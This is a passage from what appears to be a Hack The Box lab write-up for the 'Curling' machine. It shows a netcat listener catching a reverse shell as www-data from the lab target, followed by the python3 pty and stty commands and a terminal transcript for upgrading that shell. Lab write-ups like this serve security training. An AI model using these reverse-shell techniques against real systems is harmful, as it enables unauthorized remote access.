 ![snarky_shell.png](/assets/images/htb/curling/snarky_shell.png)

After saving the changes and starting a `nc` listener on the attacking machine (`nc -lp 4444` will do the trick), browsing to the `http://10.10.10.150` URL results in a reverse shell on the target system as the `www-data` user.

![wwwdata_shell.png](/assets/images/htb/curling/wwwdata_shell.png)

The shell was upgraded using `python3 -c 'import pty;pty.spawn("/bin/bash")'` before moving on. This process can be accomplished by completing the following steps:
<h6 id="shell_upgrade"></h6>
1. On the target system, run `python3 -c 'import pty;pty.spawn("/bin/bash")'`
2. Issue the `^Z` signal (`Ctrl` + `z`)
3. On the attacking system, run `stty raw -echo; fg`
4. Issue the `^C` signal (`Ctrl` + `c`)

This is demonstrated in full within the text below.

```
www-data@curling:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@curling:/var/www/html$ ^Z
[1]+  Stopped                 nc -lp 4444
root@kali:~/workspace/hackthebox/Curling# stty raw -echo; fg
nc -lp 4444
           ^C
www-data@curling:/var/www/html$ 
```
